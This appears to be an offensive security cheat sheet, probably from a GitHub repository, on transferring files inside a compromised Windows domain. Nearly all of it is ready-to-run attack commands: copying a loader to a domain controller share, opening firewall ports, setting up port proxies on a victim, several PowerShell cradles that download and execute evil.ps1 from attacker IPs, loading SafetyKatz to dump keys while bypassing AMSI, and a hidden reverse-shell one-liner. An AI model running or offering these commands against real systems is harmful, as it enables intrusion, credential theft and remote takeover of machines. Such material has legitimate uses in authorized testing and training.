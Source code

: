 # Transfer Files

### SMB Shares

```batch
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y 
```

### HTTP Server

Serve the files using [hfs ](https://www.rejetto.com/hfs/?f=dl)or http simple server

```batch
:: Attacker Machine
python3 -m http.server -port 80
:: Open the port where the files are hosted. Need Admin Access
netsh advfirewall firewall add rule name="Open Port 80" dir=in action=allow protocol=TCP localport=80
:: Verify if port is open or closed
netstat -an
```

Port forward to avoid firewall using netsh on target machine

```batch
:: Victim Machine
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=127.0.0.1 connectport=80 connectaddress=172.16.100.x
```

Download the file on target machine

```powershell
# Download and store
(New-Object Net.WebClient).DownloadFile('http://127.0.0.1:8080/<File>', '<Dest Path>')

# Download and execute
iex ((New-Object Net.WebClient).DownloadString('http://127.0.0.1:8080/<File>'));

# NetLoader to execute and bypass amsi
NetLoader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit
```

More options

```powershell
# Internet Explorer Downoad cradle
$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response


$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()


$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex $h.responseText
```

PowerShell v3+

```powershell
# UseBasicParsing is important sometime
iex (iwr http://172.16.100.83/powercat.ps1 -UseBasicParsing)
iex (iwr 'http://192.168.230.1/evil.ps1')
```

Reverse Shell Execution by transferring file. Same can be used for bind shell too by changing **-Reverse** to **-Bind**. Power here is the function name to call and can be modified.

```powershell
powershell -nop -w hidden -c "IEX (iwr 'http://172.16.100.38/Invoke-PowerShellTcp.ps1' -UseBasicParsing); Power -Reverse -IPAddress 172.16.100.38 -Port 443
```
